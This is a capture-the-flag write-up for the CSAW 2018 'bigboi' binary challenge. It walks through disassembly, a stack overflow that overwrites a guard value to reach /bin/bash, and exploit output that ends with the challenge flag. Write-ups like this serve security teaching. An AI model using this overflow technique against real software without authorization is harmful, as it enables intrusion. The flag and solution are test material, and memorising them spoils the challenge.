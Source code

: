 ```
bigboy

Only big boi pwners will get this one!

nc pwn.chal.csaw.io 9000
```

We are given a binary file that receives a user input, and after that, a date is printed and the binary
ends its execution.

```
./boi
Are you a big boiiiii??
asdf
Sat Sep 15 23:55:27 CST 2018
```

It doesn't matter how long is the user input the result its the same.

#Analysis#
We fire up radare2 to take a peek at the binary, we immediately find some interesting stuff in the
main function as shown below.

![value](imgs/hardcoded.png)

At address 0x004006a8 we compare if the value stored in **local__1ch** is not equal to 0xcaf3baee,
if they are different we jump to 0x004006bb that calls /bin/date.

```
0x004006bb      bf86074000     mov edi, str.bin_date                ; 0x400786 ; "/bin/date"
0x004006c0      e861ffffff     call sym.run_cmd
```

Otherwise we continue execution at address 0x004006af, this address calls /bin/bash (probably we
are looking for this condition)

```
0x004006af      bf7c074000     mov edi, str.bin_bash                ; 0x40077c ; "/bin/bash"
0x004006b4      e86dffffff     call sym.run_cmd
```

However, **local__1ch** was assigned the value of 0xdeadbeef a few instructions above ...

```asm
0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
```

... but if we look carefully our controlled input **buf** is saved at offset rbp-0x30 and we are
writing 0x18 bytes to the stack, that is enough to write from rbp-0x30 to rbp-0x1c (offset of local_1ch).

Lets debug our binary with GDB and check what happens when we send 24 A's as our input ...

![write](imgs/overwrite.png)

After sending 24 A's we can see that we were able to write an arbitrary value at offset rbp-0x1c,
now we'll add the value 0xcaf3baee on the last 4 bytes and try our exploit ...

```
python exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAîº _    ___        ____   ___  _ _ _ _
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/
***************************************
Are you a big boiiiii??
$ ls
ls
art.txt  boi  flag.txt    run.sh
$ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
